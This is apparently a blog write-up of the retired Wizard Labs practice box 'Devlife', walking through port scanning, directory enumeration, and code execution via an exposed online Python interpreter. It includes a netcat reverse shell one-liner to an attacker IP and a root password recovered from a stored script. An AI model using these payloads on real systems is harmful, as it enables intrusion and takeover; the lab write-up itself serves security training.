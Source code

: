 ```yaml
---
layout: post
title: Wizard Labs - Devlife
categories: wizard-labs
tags: [linux, web, rce, python]
description: My write-up for Devlife from Wizard Labs.
image: /wizardlabs/devlife/0.png
---
```


<hr>
## Quick Summary
<br> Hey guys this is my write-up about Devlife from Wizard Labs which is their second box to retire. Just like [dummy](/wizard-labs/dummy/) it's another easy box (Difficulty : 2/10) , It's a linux box and its ip is `10.1.1.20` so let's jump right in !
![](/images/wizardlabs/devlife/0.png)
<hr>
## Nmap
<br> We will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC 10.1.1.20`
![](/images/wizardlabs/devlife/1.png)
<br> Only 2 ports are open , 22 running ssh and 80 running http. Let's check http.
<hr>
## HTTP Initial Enumeration
<br> On the main page we get this "About me" message and nothing else :
![](/images/wizardlabs/devlife/2.png)
```
About Me

Hello , My name is Teddy Smith , I am a Python developer since 2007 !

Here I gonna share some Django tutorials and tutorials about System Administation in Python also I will write a Python online interpreter !!

Stay Tuned ...

TS

```
<br> I ran `gobuster` with `/usr/share/wordlists/dirb/common.txt` and got these results :
```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.hta (Status: 403)
/dev (Status: 301)
/index.html (Status: 200)
/manual (Status: 301)
/server-status (Status: 403)
```
<br>
<hr>
## Getting user
<br> So I checked `/dev` and found this `Online Python 2.7 Interpreter` :
![](/images/wizardlabs/devlife/3.png)
<br> Great , now we can get a reverse shell in many ways , I just imported `os` then did `os.system(reverse shell payload)` :
`import os;os.system('nc -e /bin/bash 10.xx.xx.xx 1337')`
![](/images/wizardlabs/devlife/4.png)
<br>
<br>
![](/images/wizardlabs/devlife/5.png)
<br> And we owned user !
<br>
<hr>
## Stored root Credentials , Privilege Escalation
<br> In the `/home` directory of `tedd` there is a directory called `.env` , Let's check that.
![](/images/wizardlabs/devlife/6.png)
<br>
<br>
![](/images/wizardlabs/devlife/7.png)
<br> We notice a python script called `su.py` , which runs `su root` and uses the password to authenticate :
![](/images/wizardlabs/devlife/8.png)
```
import pexpect
child = pexpect.spawn('su root')
child.expect ('Password:')
child.sendline('teddyxy2019')
child.expect('\$')
child.sendline('whoami')
```
<br> Now we can `su` to root using the password `teddyxy2019` :
![](/images/wizardlabs/devlife/9.png)
<br> And we owned root !
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br> Previous Wizard Labs Write-up : [Wizard Labs - Dummy](/wizard-labs/dummy/)
<hr>
